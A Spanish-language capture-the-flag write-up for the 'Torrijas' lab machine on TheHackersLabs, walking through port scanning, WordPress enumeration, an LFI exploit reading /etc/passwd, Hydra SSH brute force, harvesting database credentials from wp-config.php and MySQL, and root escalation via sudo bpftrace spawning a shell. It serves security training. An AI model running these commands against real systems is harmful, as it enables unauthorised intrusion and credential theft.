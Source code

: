 # 🧠 Resolución del CTF "Torrijas" | The HackersLabs

**Plataforma:** TheHackersLabs  
**Nombre de la máquina:** Torrijas  
**Dificultad:** Media  
**Enfoque:** WordPress, LFI, MySQL, fuerza bruta SSH, escalada de privilegios vía `bpftrace`

---

## 🔍 1. Escaneo de puertos con Nmap

```bash
nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn 192.168.1.118
```

**Puertos abiertos:**

- 22/tcp → OpenSSH 9.2p1
- 80/tcp → Apache 2.4.62
- 3306/tcp → MariaDB 10.11.6

---

## 🌐 2. Análisis web (HTTP)

Al abrir `http://192.168.1.118/`, encontramos una web estática de recetas (KINGRICE). No había funcionalidades sospechosas a simple vista.

---

## 🕵️ 3. Enumeración con Gobuster

```bash
gobuster dir -u http://192.168.1.118/ -w /usr/share/SecLists/Discovery/Web-Content/common.txt -x php
```

Se descubre `/wordpress/` y `/images/` (con indexación).

---

## 📝 4. Escaneo WordPress

Usamos `wpscan`:

- Usuario identificado: **administrator**
- Plugin vulnerable: `web-directory-free` (vulnerable a **LFI**)

---

## 💥 5. Explotación de LFI (CVE-2024-3673)

Se usa un exploit público para leer `/etc/passwd`:

```bash
python3 CVE-2024-3673.py --url http://192.168.1.118/wordpress --file ../../../../../../etc/passwd
```

Se identifican los usuarios `primo` y `premo`.

---

## 🔐 6. Fuerza bruta SSH con Hydra

```bash
hydra -l premo -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.118
```

**Credenciales válidas:**

- Usuario: `premo`
- Contraseña: `cassandra`

---

## 💻 7. Acceso SSH

```bash
ssh premo@192.168.1.118
```

Acceso exitoso a la máquina.

---

## 📂 8. Credenciales desde wp-config.php

Inspeccionamos el archivo:

```bash
cat /var/www/html/wordpress/wp-config.php
```

Obtenemos credenciales MySQL:
- Usuario: `admin`
- Contraseña: `afdvasgvfdsabdgvs6a9vD8sv`

---

## 🐬 9. Acceso a bases de datos MariaDB

```bash
mysql -u admin -p
```

Después:

```sql
mysql -u root -p
SHOW DATABASES;
USE Torrijas;
SELECT * FROM primo;
```

**Credenciales adicionales encontradas:**

- Usuario: `primo`
- Contraseña: `queazeshurmano`

---

## ⬆️ 10. Escalada de privilegios (bpftrace)

Verificamos privilegios sudo:

```bash
sudo -l
```

El usuario `primo` puede ejecutar `bpftrace` como root sin contraseña:

```bash
sudo bpftrace -c /bin/sh -e 'END {exit()}'
```

Y obtenemos **acceso como root**:

```bash
whoami
> root
```

---

## 🏁 Conclusión

Se obtiene acceso root mediante:

1. Enumeración de WordPress y explotación de LFI.
2. Descubrimiento de usuarios desde `/etc/passwd`.
3. Ataque de fuerza bruta SSH.
4. Análisis de configuración para acceder a MySQL.
5. Escalada de privilegios con `bpftrace`.
